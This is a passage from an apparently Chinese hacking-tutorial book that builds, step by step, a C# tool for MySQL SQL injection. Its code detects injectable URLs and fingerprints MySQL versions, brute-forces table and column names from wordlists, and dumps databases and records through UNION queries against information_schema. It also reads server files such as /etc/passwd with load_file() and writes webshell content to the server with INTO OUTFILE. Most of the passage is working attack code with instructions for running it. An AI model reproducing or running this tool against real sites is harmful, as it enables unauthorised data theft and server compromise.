private void checkInjectionWithNoKeyword()
{
    ......
    ......
    getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=1/*", out StatusCode_11, out ContentLength_11);
    getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=2/*", out StatusCode_12, out ContentLength_12);
    if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
    {
        getHttpStatuscodeAndContentLength(my_checkUrl + " and ord(mid(version(),1,1))>52/*", out StatusCode_11, out ContentLength_11);
        getHttpStatuscodeAndContentLength(my_checkUrl + " and ord(mid(version(),1,1))<=52/*", out StatusCode_12, out ContentLength_12);
        if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
        {
            comboBox_database.Text = "MYSQL5.x";
            richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库MYSQL5.x" + "\r\n";
            return;
        }

        getHttpStatuscodeAndContentLength(my_checkUrl + " and ord(mid(version(),1,1))>51/*", out StatusCode_11, out ContentLength_11);
        getHttpStatuscodeAndContentLength(my_checkUrl + " and ord(mid(version(),1,1))<=51/*", out StatusCode_12, out ContentLength_12);
        if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
        {
            comboBox_database.Text = "MYSQL4.x";
            richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库MYSQL4.x" + "\r\n";
            return;
        }

        comboBox_database.Text = "MYSQL3.x";
        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库MYSQL3.x" + "\r\n";
        return;
    }
    ......
    ......
}

private void checkInjectionWithKeyword()
{
    ......
    ......
    if (getHttpContent(my_checkUrl + " and 1=1/*").Contains(m_KeyWord))
    {
        if (getHttpContent(my_checkUrl + " and ord(mid(version(),1,1))>52/*").Contains(m_KeyWord))
        {
            comboBox_database.Text = "MYSQL5.x";
            richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库MYSQL5.x" + "\r\n";
            return;
        }
        if (getHttpContent(my_checkUrl + " and ord(mid(version(),1,1))>51/*").Contains(m_KeyWord))
        {
            comboBox_database.Text = "MYSQL4.x";
            richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库MYSQL4.x" + "\r\n";
            return;
        }
        comboBox_database.Text = "MYSQL3.x";
        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库MYSQL3.x" + "\r\n";
        return;
    }
    ......
    ......
}
```

（详细代码参见光盘实例1源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL。第一步单击“开始检测”按钮，检测出存在数字型注入漏洞，数据库为 mysql5.x 数据库，最后测试结果如图42所示。

在注入点处我们更换一个 URL，单击“开始检测”按钮，没有检测出存在注入漏洞。我们添加检查关键字“北”，单击“开始检测”按钮，检测出数字型注入漏洞，数据库为 mysql4.x 数据库，测试结果如图43所示。


##### 4.1.2 获取基本信息

实现一个函数 `getUnionContent(string m_HttpUrl)`，参数 `m_HttpUrl` 是构造的一个通过 union 查询将返回的查询结果显示在页面上的 URL。函数 `getUnionContent()` 会从返回的信息中提取出我们需要的内容。具体代码如下：

```csharp
private string getUnionContent(string m_HttpUrl)
{
    WebClient myWebClient = new WebClient();  // 创建 WebClient 实例 myWebClient
    // 获取或设置用于对向 Internet 资源的请求进行身份验证的网络凭据。
    myWebClient.Credentials = CredentialCache.DefaultCredentials;
    byte[] myDataBuffer = myWebClient.DownloadData(m_HttpUrl);
    // log 信息显示访问的 url
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + m_HttpUrl + "\r\n";
    string strWebData = Encoding.Default.GetString(myDataBuffer);
    // 利用正则表达式获取网页字符编码描述信息
    Match charSetMatch = Regex.Match(strWebData, "<meta[^<]*charset=([^<]*) ", RegexOptions.IgnoreCase | RegexOptions.Multiline);
    string WebCharSet = charSetMatch.Groups[2].Value;
    if (WebCharSet != null && WebCharSet != "" && Encoding.GetEncoding(WebCharSet) != Encoding.Default)
        strWebData = Encoding.GetEncoding(WebCharSet).GetString(myDataBuffer);
    else
        strWebData = Encoding.Default.GetString(myDataBuffer);

    int start = strWebData.IndexOf("***");
    int end = strWebData.IndexOf("***");
    if (end >= start)
        strWebData = strWebData.Substring(start + 3, end - start - 3);
    return strWebData;
}
```

union 查询首先需要匹配字段数和找到用以显示返回信息的字段位置，这在前面我们已经介绍过了。在得到了 union 字段数和显示位置后，我们需要根据字段信息构造出查询的 URL。下面看下如何在程序中构造 URL 去查询相应的信息。

我们定义一个获取基本信息的函数，具体函数代码如下：

```csharp
private void get_information()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    int my_fieldNum = Int32.Parse(textBox_fieldNum.Text.Trim());
    int my_disField = Int32.Parse(textBox_disField.Text.Trim());
    switch (injection_Type) // 根据不同的注入类型构造不同的URL
    {
        case "数字型":
            my_checkUrl = my_checkUrl + " and 1=2 union select ";
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "' and 1=2 union select ";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25' and 1=2 union select ";
            break;
    }

    foreach (ListViewItem itemtmp in listView_information.CheckedItems) // 遍历 listview 中每一个选中的项进行猜解
    {
        string myQueryUrl = my_checkUrl;
        for (int i = 1; i < my_disField; i++)
        {
            myQueryUrl += "null,";
        }

        myQueryUrl = myQueryUrl + "concat(char(94),char(94),char(94)," + itemtmp.Text.ToString() + "(),char(94),char(94),char(94),char(94))";

        for (int ii = my_disField + 1; ii < my_fieldNum; ii++)
        {
            myQueryUrl += ",null";
        }

        if (my_fieldNum > my_disField)
        {
            myQueryUrl += ",null/*";
        }
        else
        {
            myQueryUrl += "/*";
        }

        string tmpstr = getUnionContent(myQueryUrl);
        if (itemtmp.Text.ToString() == "database")
        {
            itemtmp.SubItems[1].Text = tmpstr;
            comboBox_dbName.Items.Add(tmpstr);
        }
        else
        {
        }
    }
}
```

```csharp
itemtmp.SubItems[1].Text = tmpStr;
}
}
```

双击“获取信息”按钮，编辑 `toolStripButton_getInfo_Click()` 函数代码，实现异步调用 `get_information()` 函数的功能，具体代码如下：

```csharp
private void toolStripButton_getInfo_Click(object sender, EventArgs e)
{
    DelegateToGuessInformation delHTStartGuess = new DelegateToGuessInformation(get_information);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetInformation);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

> （详细代码参见光盘实例2源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，填好关键字，单击“开始检测”按钮，检测出存在数字型注入漏洞，数据库为 mysql4.x，在字段数量填好匹配的 union 字段 10，在显示位置里面填好显示信息的字段位置 4，然后在下面的列表框中选中需要猜解的基本信息，单击“获取信息”按钮，返回结果如图44所示。


图44 获取的基本信息

##### 4.1.3 猜解数据

###### 猜解数据表

在 MYSQL4.x 中猜数据表名，我们只能按照 access 数据库的方法来猜解。在注入点 URL 后添加 `and (select count(*) from table_name)>0` 这句代码，如果返回正常，说明当前猜解的数据表 `table_name` 是存在的，否则不存在。在程序设计的时候我们只要构造访问 `http://www.xxx.com/test.php?id=345 and (select count(*) from table_name)>0` 的 HTTP 数据包，变换 `table_name` 数据表的名字，根据返回页面的结果判断 `table_name` 数据表是否存在。

我们可以把一些常见的数据表名保存到一个文本文档中，在猜解数据表的时候，打开这个文本文档；每次从文件中取出一个数据表名，构造 URL 进行猜解，直到遍历文本文档中所有的数据表名。

逐行读取文件内容的代码如下：

```csharp
/* 我们把所有常见的数据表名保存在 tables.txt 文件中，每个表名占一行 */
StreamReader srReader = new StreamReader("tables.txt"); // 打开
string table_name;
while ((table_name = srReader.ReadLine()) != null) // 逐行读取 tables.txt 里面的表名并赋值给字符串变量 table_name
{
    //......根据当前 table_name 变量里数据表名，构造 url 进行猜解
}
```

```csharp
/* 首先我们定义一个函数 get_Table()，把我们要猜解数据表的功能代码放在这个函数里面；当我们单击“猜解表名”按钮猜解表名 */
private void get_Table()
{
    string my_checkUrl = comboBox_url.Text.Trim();
    string m_keyWord = comboBox_keyWord.Text.Trim();
    if (m_keyWord == "")  // 利用 http 状态码和内容长度检测
    {
        StreamReader srReader = new StreamReader("tables.txt");
        string table_name;
        getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);

        while ((table_name = srReader.ReadLine()) != null)  // 逐行读取 tables.txt 里面的表名
        {
            // 将值赋予变量 table_name，根据当前 table_name 变量里数据表名，构造 url 进行猜解
            switch (comboBox_type.Text.Trim())  // 根据不同注入类型构造不同的利用语句
            {
                case "数字型":
                    getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(*) from " + table_name + ")>0", out StatusCode_11, out ContentLength_11);
                    getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(*) from " + table_name + ")<=0", out StatusCode_12, out ContentLength_12);
                    if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
                    {
                        listView_getTables.Items.Add(table_name);
                        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "猜解到数据表：" + table_name + "\r\n";
                    }
                    break;
                case "字符型":
                    break;
                case "搜索型":
                    break;
            }
        }

        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "所有表名猜解完毕！" + "\r\n";
    }
    else
    {
        StreamReader srReader = new StreamReader("tables.txt");
        string table_name;
        while ((table_name = srReader.ReadLine()) != null)  // 逐行读取 tables.txt 里面的表名
        {
            // 将值赋予变量 table_name，根据当前 table_name 变量里数据表名，构造 url 进行猜解
            switch (comboBox_type.Text.Trim())  // 根据不同类型构造不同的利用语句
            {
                case "数字型":
                    if (getHttpContent(my_checkUrl + " and (select count(*) from " + table_name + "')>0").Contains(m_keyWord))
                    {
                        listView_getTables.Items.Add(table_name);
                        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "猜解到数据表：" + table_name + "\r\n";
                    }
                    break;
                case "字符型":
                    break;
                case "搜索型":
                    break;
            }
        }

        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "所有表名猜解完毕" + "\r\n";
    }
}
```

（详细代码参见实例3源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，单击“开始检测”按钮，检测出存在数字型注入漏洞，数据库为 mysql4.x，然后单击“获取表名”按钮，返回结果如图45所示。


图45 获取到表名

###### 猜解列名

在完成猜解表名的代码后，我们就可以猜解列名了，猜列名的语句为在注入点 URL 后添加 `and (select count(column_name) from table_name)>0`，如果返回正常，说明当前数据表 `table_name` 中存在 `column_name` 列，否则不存在。

我们把一些常见的列名保存到一个文本文件中，在猜解时打开这个文本文档，每次从文件中取出一个字段名，构造 URL 进行猜解，直到遍历文本文档中所有的字段名。

```csharp
/* 首先我们定义一个函数 get_Column()，把我们要猜解列名的功能代码放在这个函数里面，get_Column() 代码如下 */
private void get_Column()
{
    string my_checkUrl = comboBox_url.Text.Trim();
    string m_keyWord = comboBox_keyWord.Text.Trim();
    if (m_keyWord == "") // 利用 http 状态码和内容长度检测
    {
        StreamReader srReader = new StreamReader("columns.txt");
        string column_name; // 定义变量用于保存每次检测的列名字符串
        getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);

        while ((column_name = srReader.ReadLine()) != null) // 逐行读取 columns.txt 里面的列名
        {
            // 将值赋予变量 column_name，根据当前 column_name 变量里列名，构造 url 进行猜解
            switch (comboBox_type.Text.Trim()) // 根据不同注入类型构造不同的利用语句
            {
                case "数字型":
                    // column_name 是我们本次循环从 columns.txt 文件中读取的一个列名
                    // listView_getTables.FocusedItem.Text 的作用是取得我们在显示的数据表中被选中项的值，如 "admin"、"user" 等
                    getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(" + column_name + ") from " + listView_getTables.FocusedItem.Text + ")>0", out StatusCode_11, out ContentLength_11);
                    getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(" + column_name + ") from " + listView_getTables.FocusedItem.Text + ")<=0", out StatusCode_12, out ContentLength_12);

                    if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
                    {
                        listView_getColumns.Items.Add(column_name);
                        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "猜解到数据表" + listView_getTables.FocusedItem.Text + "中的列名:" + column_name + "\r\n";
                    }
                    break;
                case "字符型":
                    break;
                case "搜索型":
                    break;
            }
        }

        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "所有列名猜解完毕" + "\r\n";
    }
    else
    {
        StreamReader srReader = new StreamReader("columns.txt");
        string column_name;
        while ((column_name = srReader.ReadLine()) != null) // 逐行读取 columns.txt 里面的列名
        {
            // 将值赋予变量 column_name，根据当前 column_name 变量里的数据表名，构造 url 进行猜解
            switch (comboBox_type.Text.Trim()) // 根据不同类型构造不同的利用语句
            {
                case "数字型":
                    if (getHttpContent(my_checkUrl + " and (select count(" + column_name + ") from " + listView_getTables.FocusedItem.Text + ")>0").Contains(m_keyWord))
                    {
                        listView_getColumns.Items.Add(column_name);
                        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "猜解到数据表" + listView_getTables.FocusedItem.Text + "中的列名:" + column_name + "\r\n";
                    }
                    break;
                case "字符型":
                    break;
                case "搜索型":
                    break;
            }
        }

        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "所有列名猜解完毕" + "\r\n";
    }
}
```

（详细代码参见光盘实例4源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，单击“开始检测”按钮，检测出存在数字型注入漏洞，数据库为 mysql4.x，然后单击“获取表名”按钮，猜解出存在 user、news 表，选中 user 表，单击“获取列名”按钮，返回结果如图46所示。


得到了表名和列名后就可以构造 union 查询得到表中的内容了，过程跟上面很类似。详细代码参见光盘实例5的获取数据功能代码。最后完整功能测试结果如图47所示。


##### 4.1.4 load_file() 读取系统文件

前面我们提到过用 `load_file()` 读取文件时，为了避开单引号，常采用十六进制形式表示文件路径。这里我们实现一个功能，就是把字符串转换成16进制形式，代码如下：

```csharp
public string StrToHex(string mStr) // 返回处理后的十六进制字符串
{
    string tmpStr = "0x" + BitConverter.ToString(ASCIIEncoding.Default.GetBytes(mStr)).Replace("-", "");
    return tmpStr;
}
```

例如 `StrToHex("/etc/passwd")=0x2F6574632F706173737764`。

```csharp
/* 我们定义一个函数 readFile() 实现利用 load_file() 读取文件的功能 */
private void readFile()
{
    if (comboBox_readFilePath.Text.Trim() == "")
    {
        MessageBox.Show("检查文件路径！");
        return;
    }
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    int my_fieldNum = Int32.Parse(textBox_fieldNum.Text.Trim());
}
```

```csharp
int my_disField = Int32.Parse(textBox_disField.Text.Trim());
switch (injection_Type) // 根据不同的注入类型构造不同的URL
{
    case "数字型":
        my_checkUrl = my_checkUrl + " and 1=2 union select ";
        break;
    case "字符型":
        my_checkUrl = my_checkUrl + "' and 1=2 union select ";
        break;
    case "搜索型":
        my_checkUrl = my_checkUrl + "%25' and 1=2 union select ";
        break;
}
string myQueryUrl = my_checkUrl;
for (int i = 1; i < my_disField; i++)
{
    myQueryUrl += "null,";
}
myQueryUrl = myQueryUrl + "concat(char(94),char(94),char(94),load_file('" + StrToHex(comboBox_readFilePath.Text.Trim()) + "'),char(94),char(94),char(94),char(94))";
for (int ii = my_disField + 1; ii < my_fieldNum; ii++)
{
    myQueryUrl += ",null";
}
if (my_fieldNum > my_disField)
{
    myQueryUrl += ",null/*";
}
else
{
    myQueryUrl += "/*";
}
string fileContent = getUnionContent(myQueryUrl);
richTextBox_readResult.Text = fileContent; // 在richTextBox中显示信息
}
```

然后我们双击“读取文件”按钮，编辑函数代码，异步调用 readFile()，具体代码如下：

```csharp
private void button_readFile_Click(object sender, EventArgs e)
{
    DelegateToReadFile delHTStartGuess = new DelegateToReadFile(readFile);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndReadFile);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

（详细代码参见光盘实例6源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，单击“开始检测”按钮，检测出存在数字型注入漏洞，数据库为 mysql4.x，在字段数里填好匹配的 union 字段 5，在显示位置里面填好显示信息的字段位置 5，然后输入要读取的文件名 /etc/passwd，单击“读取文件”按钮，返回结果如图48所示。

## 4.1.5 SELECT INTO OUTFILE写文件

我们定义一个函数 WriteFile()，实现利用 INTO OUTFILE 写文件的功能。


```csharp
private void WriteFile()
{
    if (comboBox_writeFilePath.Text.Trim() == "")
    {
        MessageBox.Show("检查文件路径");
        return;
    }

    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    int my_fieldNum = Int32.Parse(textBox_fieldNum.Text.Trim());
    int my_disField = Int32.Parse(textBox_disField.Text.Trim());

    switch (injection_Type) // 根据不同的注入类型构造不同的URL
    {
        case "数字型":
            my_checkUrl = my_checkUrl + " and 1=2 union select ";
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "' and 1=2 union select ";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25' and 1=2 union select ";
            break;
    }

    string myQueryUrl = my_checkUrl;
    for (int i = 1; i < my_disField; i++)
    {
        myQueryUrl += "null,";
    }

    myQueryUrl = myQueryUrl + "'" + richTextBox_WebShellContent.Text.Trim() + "',";

    for (int ii = my_disField + 1; ii < my_fieldNum; ii++)
    {
        myQueryUrl += "null";
    }

    if (my_fieldNum > my_disField)
    {
        myQueryUrl += ",null into outfile '" + comboBox_writeFilePath.Text.Trim() + "'" + "/*";
    }
    else
    {
        myQueryUrl += " into outfile '" + comboBox_writeFilePath.Text.Trim() + "'" + "/*";
    }

    string tmpstr = getHttpContent(myQueryUrl); // getHttpContent()提交myQueryUrl开始执行文件写入
}
```

然后双击“写文件”按钮，编辑函数代码，异步调用 WriteFile()，具体代码如下：

```csharp
private void button_writeFile_Click(object sender, EventArgs e)
{
    DelegateToWriteFile delHTStartGuess = new DelegateToWriteFile(WriteFile);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndWriteFile);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

## 4.2 MYSQL5.x 注入工具

对于前面介绍的 MYSQL4.X 的工具代码，如 load_file()、select into outfile 等，MYSQL5.x 是完全适用的，这里我们只介绍 MYSQL5.x 特有的 information_schema 遍历数据库内容功能。

##### 4.2.1 猜解所有可用数据库

在 information_schema 的 SCHEMATA 数据表中存储了关于数据库的信息，我们通过遍历 SCHEMATA 数据表的 SCHEMA_NAME 字段值可以得到所有可用数据库。定义一个函数 GetDatabase()，实现利用 information_schema 遍历 SCHEMATA 数据表的 SCHEMA_NAME 字段值得到所有可用数据库的功能，具体代码如下：

```csharp
private void GetDatabase()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    int my_fieldNum = Int32.Parse(textBox_fieldNum.Text.Trim());
    int my_disField = Int32.Parse(textBox_disField.Text.Trim());
    listView_getDatabases.Items.Clear();
    switch (injection_Type) // 根据不同的注入类型构造不同的URL
    {
        case "数字型":
            my_checkUrl = my_checkUrl + " and 1=2 union select ";
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "' and 1=2 union select ";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25' and 1=2 union select ";
            break;
    }
    string myQueryUrl = my_checkUrl;
    for (int i = 1; i < my_disField; i++)
    {
        myQueryUrl += "null,";
    }
    myQueryUrl = myQueryUrl + "concat(char(94),char(94),char(94),count(*),char(94),char(94),char(94))";
    for (int ii = my_disField + 1; ii < my_fieldNum; ii++)
    {
        myQueryUrl += ",null";
    }
    if (my_fieldNum > my_disField)
    {
        myQueryUrl += ",null from information_schema.SCHEMATA/*";
    }
    else
    {
        myQueryUrl += " from information_schema.SCHEMATA/*";
    }
    string databaseCount = getUnionContent(myQueryUrl);

    for (int currentNum = 0; currentNum < Int32.Parse(databaseCount); currentNum++)
    {
        string getDatabaseUrl = myQueryUrl.Replace("count(*)", "SCHEMA_NAME");
        getDatabaseUrl = getDatabaseUrl.Replace("from information_schema.SCHEMATA/*", "from information_schema.SCHEMATA limit " + currentNum.ToString() + ",1");
        string databaseName = getUnionContent(getDatabaseUrl);
        listView_getDatabases.Items.Add(databaseName);
    }
}
```

然后双击“获取数据库名”按钮，编辑函数 toolStripButton_getDatabases_Click 代码，异步调用 GetDatabase()，具体代码如下：

```csharp
private void toolStripButton_getDatabases_Click(object sender, EventArgs e)
{
    DelegateToGetDatabase delHTStartGuess = new DelegateToGetDatabase(GetDatabase);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetDatabase);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

（详细代码参见光盘实例7源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，单击“开始检测”按钮，检测出存在数字型注入漏洞，数据库为 mysql5.x，在字段数里填好匹配的 union 字段 7，在显示位置里填好显示信息的字段位置 3，然后单击“获取数据库”按钮，返回结果如图49所示。


图49 获取到数据库

##### 4.2.2 猜解数据表

在得到数据库名后，我们要继续得到这个数据库中有哪些数据表。在 information_schema 的 TABLES 数据表中存储了关于数据表的信息，通过遍历 TABLES 数据表的 TABLE_NAME 字段值就可以得到指定数据库的所有数据表了。

```csharp
private void GetTable()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    int my_fieldNum = Int32.Parse(textBox_fieldNum.Text.Trim());
    int my_disField = Int32.Parse(textBox_disField.Text.Trim());
    listView_getTables.Items.Clear();
    switch (injection_Type) // 根据不同的注入类型构造不同的URL
    {
        case "数字型":
            my_checkUrl = my_checkUrl + " and 1=2 union select ";
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "' and 1=2 union select ";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25' and 1=2 union select ";
            break;
    }

    string myQueryUrl = my_checkUrl;
    for (int i = 1; i < my_disField; i++)
    {
        myQueryUrl += "null,";
    }

    myQueryUrl = myQueryUrl + "concat(char(94),char(94),char(94),count(*),char(94),char(94),char(94))";
    for (int ii = my_disField + 1; ii < my_fieldNum; ii++)
    {
        myQueryUrl += ",null";
    }

    if (my_fieldNum > my_disField)
    {
        myQueryUrl = myQueryUrl + ",null from information_schema.TABLES where TABLE_SCHEMA='" + StrToHex(listView_getDatabases.FocusedItem.Text) + "'/*";
    }
    else
    {
        myQueryUrl = myQueryUrl + " from information_schema.TABLES where TABLE_SCHEMA='" + StrToHex(listView_getDatabases.FocusedItem.Text) + "'/*";
    }

    string tableCount = getUnionContent(myQueryUrl);
    for (int currentNum = 0; currentNum < Int32.Parse(tableCount); currentNum++)
    {
        string getTableUrl = myQueryUrl.Replace("count(*)", "TABLE_NAME");
        getTableUrl = getTableUrl.Replace("/*", " limit " + currentNum.ToString() + ",1");
        string tableName = getUnionContent(getTableUrl);
        listView_getTables.Items.Add(tableName);
    }
}
```

然后双击“获取表名”按钮，编辑函数 `toolStripButton_getTables_Click_1()` 代码异步调用 `GetTable()`，具体代码如下：

```csharp
private void toolStripButton_getTables_Click_1(object sender, EventArgs e)
{
    DelegateToGetTable delHTStartGuess = new DelegateToGetTable(GetTable);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetTable);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

（详细代码参见光盘实例 8 源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，单击“开始检测”按钮，检测出存在数字型注入漏洞，数据库为 mysql5.x，在字段数里填好匹配的 union 字段 7，在显示位置里填好显示信息的字段位置 3，然后单击“获取数据库”按钮，得到所有可用数据库名，选择要猜解的数据库，单击“获取表名”按钮，猜解选中数据库包含的表，返回结果如图 50 所示。


图50 获取到表名

##### 4.2.3 猜解列名

在 information_schema 的 COLUMNS 数据表中存储了字段信息，通过遍历 COLUMNS 数据表中的 COLUMN_NAME 字段值得到指定数据表的所有列名。

```csharp
private void GetColumn()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    int my_fieldNum = Int32.Parse(textBox_fieldNum.Text.Trim());
    int my_disField = Int32.Parse(textBox_disField.Text.Trim());
    listView_getColumns.Items.Clear();
    switch (injection_Type) // 根据不同的注入类型构造不同的URL
    {
        case "数字型":
            my_checkUrl = my_checkUrl + " and 1=2 union select ";
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "' and 1=2 union select ";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25' and 1=2 union select ";
            break;
    }

    string myQueryUrl = my_checkUrl;
    for (int i = 1; i < my_disField; i++)
    {
        myQueryUrl += "null,";
    }
    myQueryUrl = myQueryUrl + "concat(char(94),char(94),char(94),count(*),char(94),char(94),char(94))";
    for (int ii = my_disField + 1; ii < my_fieldNum; ii++)
    {
        myQueryUrl += ",null";
    }
    if (my_fieldNum > my_disField)
    {
        myQueryUrl = myQueryUrl + ",null from information_schema.COLUMNS where TABLE_NAME=" + StrToHex(listView_getTables.FocusedItem.Text) + "/*";
    }
    else
    {
        myQueryUrl = myQueryUrl + " from information_schema.COLUMNS where TABLE_NAME=" + StrToHex(listView_getTables.FocusedItem.Text) + "/*";
    }
    string columnCount = getUnionContent(myQueryUrl);
    for (int currentNum = 0; currentNum < Int32.Parse(columnCount); currentNum++)
    {
        string getColumnUrl = myQueryUrl.Replace("count(*)", "COLUMN_NAME");
        getColumnUrl = getColumnUrl.Replace("/*", " limit " + currentNum.ToString() + ",1");
        string columnName = getUnionContent(getColumnUrl);
        listView_getColumns.Items.Add(columnName);
    }
}
```

然后双击“获取列名”按钮，编辑函数 `toolStripButton_getColumns_Click()` 代码异步调用 `GetColumn()`，具体代码如下：

```csharp
private void toolStripButton_getColumns_Click(object sender, EventArgs e)
{
    DelegateToGetColumn delHTStartGuess = new DelegateToGetColumn(GetColumn);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetColumn);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

（详细代码参见光盘实例 9 源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，在字段数里填好匹配的 union 字段 7，在显示位置里填好显示信息的字段位置 3，然后单击“获取列名”按钮，返回结果如图 51 所示。


图 51 获取到列名

##### 4.2.4 猜解内容

得到了表名和列名，我们就可以构造 union 查询得到表中的内容了，过程跟上面的很类似。

```csharp
private void GetDatas()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    int my_fieldNum = Int32.Parse(textBox_fieldNum.Text.Trim());
    int my_disField = Int32.Parse(textBox_disField.Text.Trim());
    listView_getDatas.Items.Clear();
    switch (injection_Type)// 根据不同的注入类型构造不同的URL
    {
        case "数字型":
            my_checkUrl = my_checkUrl + " and 1=2 union select ";
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "' and 1=2 union select ";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25' and 1=2 union select ";
            break;
    }
    string myQueryUrl = my_checkUrl;
    for (int i = 1; i < my_disField; i++)
    {
        myQueryUrl += "null,";
    }
    myQueryUrl = myQueryUrl + "concat(char(94),char(94),char(94),count(*),char(94),char(94),char(94),char(94))";
    for (int ii = my_disField + 1; ii < my_fieldNum; ii++)
    {
        myQueryUrl += ",null";
    }
    if (my_fieldNum > my_disField)
    {
        myQueryUrl = myQueryUrl + ",null from " + listView_getDatabases.FocusedItem.Text + "." + listView_getTables.FocusedItem.Text + "/*";
    }
    else
    {
        myQueryUrl = myQueryUrl + " from " + listView_getDatabases.FocusedItem.Text + "." + listView_getTables.FocusedItem.Text + "/*";
    }
    string dataCount = getUnionContent(myQueryUrl);
    if (Int32.Parse(dataCount) == 0)
    {
        MessageBox.Show("存在零条记录");
        return;
    }

    string strRecodeConcat = "";
    foreach (ListViewItem itemColumn in listView_getColumns.CheckedItems)
    {
        strRecodeConcat = strRecodeConcat + " , " + itemColumn.Text + " ,char(124)";
    }
    for (int currentNum = 0; currentNum < Int32.Parse(dataCount); currentNum++)
    {
        string getDatasUrl = myQueryUrl.Replace(",count(*)", strRecodeConcat);
        getDatasUrl = getDatasUrl.Replace("/*", " limit " + currentNum.ToString() + ",1");
        string datasContent = getUnionContent(getDatasUrl);
        listView_getDatas.Items.Add(datasContent);
    }
}
```

然后双击“获取记录”按钮，编辑函数 `toolStripButton_getDatas_Click()` 代码异步调用 `GetDatas()`，具体代码如下：

```csharp
private void toolStripButton_getDatas_Click(object sender, EventArgs e)
{
    DelegateToGetDatas delHTStartGuess = new DelegateToGetDatas(GetDatas);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetDatas);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

（详细代码参见光盘实例 10 源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，单击“开始检测”按钮。检测出存在数字型注入漏洞，数据库为 mysql5.x，然后在字段数里填好匹配的 union 字段 7，在显示位置里填好显示信息的字段位置 3，单击“获取数据库名”按钮，猜解所有数据库名，选择需要猜解的数据库，单击“获取表名”，猜解选中数据库包含的数据表，选择需要猜解的数据表，单击“获取列名”，猜解选中数据表包含的字段，选择需要猜解的字段，单击“获取记录”开始猜解内容，返回结果如图 52 所示。


## 4.3 MYSQL3.x 注入工具

